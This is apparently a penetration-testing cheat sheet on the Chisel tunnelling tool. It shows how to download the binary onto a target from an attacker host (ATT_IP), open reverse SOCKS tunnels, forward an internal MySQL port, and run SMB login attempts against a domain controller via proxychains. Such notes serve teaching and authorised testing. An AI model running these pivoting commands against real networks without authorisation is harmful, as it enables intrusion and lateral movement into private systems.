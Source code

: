# Chisel

> Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

#### Pre-Requisites:

* Download the binary to transfer on the target machine:

{% embed url="https://github.com/jpillora/chisel/releases" %}

* Download the package on Kali machine

```bash
sudo apt install chisel
```

* Add chisel port to the proxychains configuration

```bash
sudo nano /etc/proxychains

socks4    127.0.0.1    1080 # <-- add this line
```

Once downloaded and configured them, we can perform both pivoting and port forwarding.



## Pivoting with Chisel

### Start Chisel server

```bash
chisel server --port 8000 -reverse
```

### Connect the target machine to server

Transfer the chisel's binary to the target.

```bash
curl http://ATT_IP:ATT_PORT/chisel_1.10.1_windows_amd64 -o chisel.exe
```

Connect the client to the server with follow command:

```powershell
.\chisel.exe client SERVER_IP:SERVER_PORT R:socks
```

***

Test the tunnel from attack machine

```bash
proxychains ping SECOND_TARGET_IP

proxychains nxc smb DC_IP -u "gg" -p 'ii'
```



## Port Forwarding with Chisel

### Start Chisel server

```bash
chisel server --port 8000 -reverse
```

### Make the port forwarding&#x20;

Transfer the chisel's binary to the target.

```bash
curl http://ATT_IP:ATT_PORT/chisel_1.10.1_windows_amd64 -o chisel.exe
```

Connect the client to the server making the port forwarding with follow command:

{% code title="windows target machine" %}
```powershell
.\chisel.exe client SERVER_IP:SERVER_PORT R:socksR:1235:127.0.0.1:3306
```
{% endcode %}

{% code title="linux target machine" %}
```bash
chmod +x chisel_1.10.1_linux_386
./chisel_1.10.1_linux_386 client SERVER_IP:SERVER_PORT R:1235:127.0.0.1:3306

# R — Reverse mode
# 1235 — Port on which the kali linux machine will be listening for the service
# 127.0.0.1 — IP of the machine you want to access.
# 3306 — This is the well known port, mysql port where the service is running
```
{% endcode %}

***

Test the port forwarded

```bash
sudo mysql -u root --port 1235 -p
```

### Web Port forwarding Chisel

if you want to browse anything on firefox which is hosted on that internal machine. You will have to setup a proxy just like you do for Burp suite. And your browser will be setup.

<figure><img src="../../../.gitbook/assets/image (398).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (399).png" alt=""><figcaption></figcaption></figure>
